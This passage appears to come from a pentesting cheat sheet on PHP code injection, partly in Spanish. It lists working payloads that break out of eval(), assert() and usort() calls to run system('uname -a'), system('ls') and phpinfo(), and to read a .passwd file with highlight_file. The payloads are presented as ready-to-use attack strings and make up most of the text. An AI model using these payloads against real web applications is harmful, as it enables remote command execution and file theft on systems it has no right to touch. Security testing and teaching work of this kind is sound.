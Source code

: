 To execute the code in the "replace" argument is needed at least one match.  
This option of preg\_replace has been **deprecated as of PHP 5.5.0.**

### **Code execution with Eval\(\)**

```text
'.system('uname -a'); $dummy='
'.system('uname -a');#
'.system('uname -a');//
'.phpinfo().'
<?php phpinfo(); ?>
```

### **Code execution with Assert\(\)**

Esta función dentro de php permite ejecutar código que está escrito en un string con el objetivo de que se devuelva true o false \(y dependiendo de esto alterar la ejecución\). Por lo general se introducirá la variable del usuario entre medias de un string. Por ejemplo: assert\("strpos\($\_GET\['page'\]\),'..'\) === false"\) --&gt; En este caso el payload para ejecutar un comando podría ser:

```text
?page=a','NeVeR') === false and system('ls') and strpos('a
```

El caso es que hay que romper la query, ejecutar algo y volver a arreglarla \(para ello nos servimos del "and" o "%26%26" o "\|" --&gt; el "or", "\|\|" no funcionan pues si la primera es cierta deja de ejecutar y el ";" no funciona pues solo ejecuta la primera parte\).

**Other option** is to add to the string the execution of the command: _'.highlight\_file\('.passwd'\).'_

**Other option** \(if you have the internal code\) is to modify some variable to alter the execution: _$file = "hola"_

### **Code execution with usort\(\)**

This function is used to sort an array of items using an specific function.  
To abuse this function:

```php
<?php usort(VALUE, "cmp"); #Being cmp a valid function ?>
VALUE: );phpinfo();#

<?php usort();phpinfo();#, "cmp"); #Being cmp a valid function ?>
```

```php
<?php
function foo($x,$y){
    usort(VALUE, "cmp");
}?>
VALUE: );}[PHP CODE];#

<?php
function foo($x,$y){
    usort();}phpinfo;#, "cmp");
}?>
```
